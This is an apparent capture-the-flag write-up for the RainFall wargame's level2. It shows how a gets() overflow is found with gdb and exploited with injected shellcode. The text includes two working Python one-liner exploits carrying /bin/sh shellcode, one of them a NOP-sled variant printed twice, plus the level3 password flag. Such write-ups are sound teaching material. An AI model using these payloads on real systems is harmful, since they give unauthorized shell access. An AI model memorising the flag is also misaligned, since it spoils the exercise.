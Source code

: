 # Level2

When we take a look at the [decomp](./level2_decomp.c), we notice the use of `gets()` a line to check if an address is located in the `0xb0000000` range.
We can also see a call to `strdup()`.

## Exploit

We will first need to find the size of our buffer, to do that, we fill it with characters until it behaves weirdly:

```bash
level2@RainFall:~$ ./level2 
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnoooopppp
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppJ����
```

Here we can see that the buffer is 64 chars long. Nice we found one of the components!

So we need to find the return address and where it is located compared to our buffer. To do that we will use the same technique we used to find the size of our buffer such as:

```bash
level2@RainFall:~$ gdb level2 
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) b *p+30
Breakpoint 1 at 0x80484f2
(gdb) r
Starting program: /home/user/level2/level2 
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuu

Breakpoint 1, 0x080484f2 in p ()
(gdb) x/s $ebp+4
0xbffff72c:	 "uuuu"
(gdb) 
```

Now we can calculate the difference of size which is : `qqqqrrrrssssttttuuuu` or 16 bytes before overflowing on the return address.

Now that we have the size of everything, we can craft our payload which will be :

`[shellcode] + [59 filler] + [strdup allocated addr]`

It will jump to our shellcode, execute it and voilà !

Here's the exploit:

<details>
    <summary>Spoiler</summary>

```bash
level2@RainFall:~$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "a"*59 + "\x08\xa0\x04\x08"' > /var/crash/tmp.txt
level2@RainFall:~$ cat /var/crash/tmp.txt - | ./level2 
j
 X�Rh//shh/bin��1�̀aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

</details>

### Slight variation using NOP-slide

We can also use another technique called NOP-sliding/sled which means basicaly; filling a part of memory with NO-OPERATION asm instructions or `\x90`.

The payload will slightly change:

`[NOP slide] + [payload] + [filler] + [malloc addr]`

Which will result into this:

<details>
    <summary>Spoiler</summary>

```bash
level2@RainFall:~$ python2 -c 'print "\x90"*43 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "a"*16 + "\x08\xa0\x04\x08"' > /var/crash/shellcode.exploit
level2@RainFall:~$ cat /var/crash/shellcode.exploit - | ./level2
�������������������������������������������j
                                            X�Rh//shh/bin��1��aaaaaaaaaaa�
whoami
level3
```

</details>

```bash
level2@RainFall:~$ python2 -c 'print "\x90"*43 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "a"*16 + "\x08\xa0\x04\x08"' > /var/crash/shellcode.exploit
level2@RainFall:~$ cat /var/crash/shellcode.exploit - | ./level2
�������������������������������������������j
                                            X�Rh//shh/bin��1��aaaaaaaaaaa�
whoami
level3
```

## Flag

492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

